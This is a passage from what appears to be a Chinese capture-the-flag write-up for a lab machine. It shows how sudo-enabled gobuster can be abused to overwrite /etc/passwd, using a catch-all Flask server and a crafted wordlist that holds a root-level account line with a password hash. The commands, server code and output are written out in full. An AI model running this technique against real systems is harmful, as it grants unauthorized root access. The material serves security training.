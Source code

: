 通过`gobuster`扫描`kali` 将输出结果放入到`test`文件

这样就可以将文字输入带文字了，假如我们将其输入到`/etc/passwd`文件呢？

```bash
welcome@listen:/tmp$ gobuster -u http://192.168.56.4:81/ -w wordlist -n -q -o test
/hello
welcome@listen:/tmp$ cat test
/hello
```

我们打算计划向`/etc/passwd`写入`hack:zSZ7Whrr8hgwY:0:0::/root/:/bin/bash` （长度为`40`） 但是因为会触发交换文件。

所以打算创建`web`服务器，将接收到路径长度`≠40`的数据包都返回`200` ，那么就会输出中写出来

(代码参照：https://7r1umph.github.io/post/hmv_buster.html#4.%E6%8F%90%E6%9D%83)

```bash
from flask import Flask, Response

app = Flask(__name__)

@app.route('/', defaults={'path': ''})
# 接收所有路径
@app.route('/<path:path>')
# catch_all 处理所有请求
def catch_all(path):
		# 参数path是从url中提取的路径
    if len(path) == 1:
        return Response(status=404)
    else:
        return Response(status=200)

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=81) 
```

启动服务器

```bash
┌──(root㉿kali)-[~/Desktop/test/buster]
└─# python3 a.py
 * Serving Flask app 'a'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on all addresses (0.0.0.0)
 * Running on http://127.0.0.1:81
Press CTRL+C to quit
```

靶机在字典中写入`hack:zSZ7Whrr8hgwY:0:0::/root/:/bin/bash` ，并使用`gobuster`将其写入`/etc/passwd`

```bash
welcome@listen:/tmp$ echo "hack:zSZ7Whrr8hgwY:0:0::/root/:/bin/bash" > wordlist
welcome@listen:/tmp$ sudo /usr/bin/gobuster -w wordlist -u http://192.168.56.4:81/ -n -q -fw -o /etc/passwd                                                  
```
